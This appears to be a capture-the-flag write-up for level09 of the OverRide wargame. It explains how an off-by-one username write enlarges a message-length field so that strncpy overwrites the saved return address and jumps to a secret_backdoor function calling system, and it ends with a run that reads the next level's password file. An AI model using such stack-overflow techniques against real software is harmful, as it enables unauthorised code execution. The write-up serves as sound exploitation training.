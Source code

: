 # level09 walkthrough

## the binary
``` shell
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: ffarkas
>: Welcome, ffarkas
>: Msg @Unix-Dude
>>: Hello!
>: Msg sent!
```

## methodology
- buffer overflow attack

The given binary asks for a username and message upon execution. Upon displaying the list of functions, we see that there is a <code>secret_backdoor</code> present, but not called anywhere in the main. It is able to execute a given command using the <code>system</code> function. Our task is thereby simople:

- find a way to cause buffer overflow as we enter the input
- overwrite and access the <code>EIP</code> register

The executable uses a structure to manage the data:
``` C
typedef struct s_msg {
	char user_str[40];
	char msg_str[140];
	int str_len;
}	t_msg;
```

The input values are handled by <code>set_username</code> and <code>set_msg</code> functions respectively:
```
HANDLE_MSG():
    set message length to 0x8c
        └─> msg.str_len = 140

    SET_USERNAME():
        └─ input username
        └─ load into local array
        └─ copy first 0x28 characters to structure
            └─> 40x msg->user_str[i] = array[i]

    SET_MSG():
        └─ input message
        └─ load into local array
        └─ use strncpy to copy msg.str_len characters
            └─> strncpy(msg->msg_str, array, msg->str_len)
```

The first part of the overflow is exposed in the source code logic - we use 40 characters reserved for the username and set the <code>msg.str_len</code> to the highest possible value we can using two hexadecimal digits (8 bits):
```
user_str -> 40 characters
str_len -> 0xff (255)
```

As we inspect the life status of the <code>EIP</code> through its manipulations, we can estimate its position from the base of the stack:
```
0x00000000000008c4 <+4>:	sub    $0xc0,%rsp
                                        └─> 192 ----┐
0x00000000000009cd <+0>:	push   %rbp             |--> EIP is at base + 200
                                     └─> 8 ---------┘
```

The last thing we need is the address of the <code>secret_backdoor</code> function:
``` shell
0x000055555555488c
```

These information allow us to craft the final payload and execute the <code>cat</code> command for flag displayal.

## flag
``` shell
level09@OverRide:~$ python /tmp/payload09 > tmp/flag9
level09@OverRide:~$ cat /tmp/flag9 - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
